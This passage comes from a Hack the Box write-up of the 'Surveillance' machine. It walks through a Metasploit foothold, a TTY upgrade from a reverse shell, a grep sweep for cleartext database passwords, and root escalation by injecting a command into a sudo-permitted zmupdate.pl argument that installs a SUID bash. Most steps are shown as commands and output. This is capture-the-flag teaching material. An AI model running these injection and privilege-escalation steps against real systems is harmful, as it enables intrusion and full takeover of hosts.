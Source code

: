```markdown
set lhost <your IP here>
set targeturi /
set target 0
exploit
```
Once the metepreter session is received, open a shell and find out it is running under the `zoneminder` user context.

![surveillance3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e516f96d-e31a-4b8e-99a8-10a418dc99e2)

This meterpreter shell is functional, but not interactive. The best option to upgrade the shell is to use the meterpreter session to send a `nc mkfifo` reverse shell to kali, then upgrade to TTY.
```markdown
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL-Z
sty raw -echo
export TERM=xterm
```
The resulting shell is interactive and can be used to do some enumeration in the ZoneMinder root directory `/usr/share/zoneminder/www`. Inside this location we launch a `grep` scan for clear text passwords in the file system.
```markdown
grep --color=always -rnw . -ie "PASSWORD" 2> /dev/null
```
A `database.php` file is reported in `/usr/share/zoneminder/www/api/app/Config/database.php` containing mysql credential; however, although this credential can be used to log into the mysql database running on port 3306, this does not lead to anything useful.

![surveillance4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/55e016c9-4e05-4a35-9bcd-ad11d3f49ab8)

Moving forward, next step is to verify if `zoneminder` is a sudoer.
```markdown
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
This means any user can run any binary called zm*.pl in the `/usr/bin/` directory under the root context, no password will be prompted. Morevoer, any option can be passed to the binary since it uses a wildcard in the sudoers file. This is a wide open configuration which can be abused using wildcard injection.
Prepare a shell exploit.
```markdown
echo 'cp /bin/bash /var/tmp/bash;chmod 4755 /var/tmp/bash' > /var/tmp/exploit.sh
chmod +x /var/tmp/exploit.sh
```
Now just run any zm* binary and inject a command calling the exploit, it will be executed under the root context. For example, using `zmupdate` with the `--version` option will force the tool to upgrade the database, and it allows us to inject a command to execute the exploit.
```markdown
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/var/tmp/exploit.sh)'
```
This will execute `exploit.sh` under the root context. Finish the box executing a root bash.
```markdown
/var/tmp/bash -p
whoami
root
```

![surveillance5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3123f308-5b47-47a2-8622-c3398294518f)
